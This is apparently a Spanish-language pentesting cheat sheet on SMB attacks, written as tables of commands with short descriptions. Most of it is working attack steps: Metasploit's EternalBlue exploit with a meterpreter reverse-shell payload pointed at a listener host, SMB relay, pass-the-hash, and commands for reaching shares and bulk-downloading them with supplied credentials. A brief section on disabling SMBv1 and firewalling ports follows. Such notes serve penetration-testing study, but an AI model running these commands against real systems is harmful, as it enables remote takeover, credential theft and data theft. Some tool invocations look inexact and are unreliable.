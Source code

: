 ## Exploiting Vulnerabilidades SMB

### EternalBlue (MS17-010)
| **Comando**                                      | **Descripción** |
|--------------------------------------------------|-----------------|
| `msfconsole`                                     | Iniciar Metasploit para realizar ataques de explotación. |
| `use exploit/windows/smb/ms17_010_eternalblue`   | Cargar el exploit para la vulnerabilidad MS17-010 (EternalBlue). |
| `set RHOSTS 10.10.10.10`                         | Configurar la dirección IP del objetivo. |
| `set PAYLOAD windows/x64/meterpreter/reverse_tcp` | Establecer el payload, en este caso, un reverse shell para Windows. |
| `set LHOST 10.10.10.20`                          | Configurar la IP de tu máquina (servidor de escucha). |
| `run`                                            | Ejecutar el exploit. |

### SMB Relay
| **Comando**                                      | **Descripción** |
|--------------------------------------------------|-----------------|
| `impacket-smbrelay.py -t 10.10.10.10 -u user -p password` | Realizar un ataque SMB relay para interceptar las credenciales y realizar acciones sobre otros hosts. |
| `smbclient //10.10.10.10/share`                  | Acceder a un recurso compartido SMB y probar técnicas de SMB relay. |

### Pass-the-Hash (PTH)
| **Comando**                                      | **Descripción** |
|--------------------------------------------------|-----------------|
| `pth-winexe -U user%hash -domain DOMAIN 10.10.10.10 "cmd.exe"` | Utilizar el hash de la contraseña de un usuario para autenticarte sin necesidad de la contraseña en texto claro. |
| `impacket-pth`                                   | Herramienta para realizar ataques de Pass-the-Hash en redes SMB. |

## Prevención de Vulnerabilidades SMB

1. **Deshabilitar SMBv1**: Asegúrate de que SMBv1 esté deshabilitado en la red, ya que es vulnerable a muchos ataques (como EternalBlue).
   - En Windows, puedes deshabilitar SMBv1 con el siguiente comando:
     ```bash
     sc config lanmanworkstation depend= bowser/mrxsmb20/nsi
     ```
   
2. **Uso de firewalls**: Configura los firewalls para bloquear puertos SMB (445, 139) de la red externa, permitiendo solo tráfico SMB dentro de la red interna.

## Acceso a recursos SMB

| **Comando**                                               | **Descripción** |
|-----------------------------------------------------------|-----------------|
| `smbclient //10.10.10.10/backups`                          | Acceder a un recurso compartido SMB (en este caso `backups`) sin especificar usuario ni contraseña, dependiendo de la configuración del recurso. |
| `smbclient //10.10.10.10/share -U user`                    | Acceder a un recurso compartido SMB proporcionando el nombre de usuario para autenticarse. El sistema pedirá la contraseña. |
| `smbclient //10.10.10.10/share -U "user%password"`         | Acceder a un recurso SMB especificando las credenciales en un solo comando (nombre de usuario y contraseña). |
| `mount -t cifs //10.10.10.10/backups /mnt/backups -o username=user,password=password` | Montar un recurso SMB en Linux (reemplazar `user` y `password` por las credenciales correctas) para acceder a los archivos como si fueran parte del sistema de archivos local. |
| `smbclient //10.10.10.10/backups -N`                       | Acceder a un recurso SMB sin necesidad de autenticación si el recurso permite acceso anónimo. |
| `smbclient //10.10.10.10/backups -U "admin%password"`      | Acceder a un recurso SMB utilizando el usuario "admin" y la contraseña "password". Se pueden reemplazar con otros valores. |
| `smbget -R smb://10.10.10.10/backups`                      | Descargar archivos recursivamente de un recurso compartido SMB a través de `smbget`, útil para hacer una descarga masiva de archivos. |
| `smbmap -H 10.10.10.10 -u "user" -p "password"`            | Acceder a los recursos compartidos SMB especificando un usuario y una contraseña, y obtener información sobre los permisos y el contenido de esos recursos. |
| `smbclient -L 10.10.10.10 -U "user"`                       | Enumerar todos los recursos compartidos disponibles en el servidor SMB, proporcionando un nombre de usuario para autenticación. |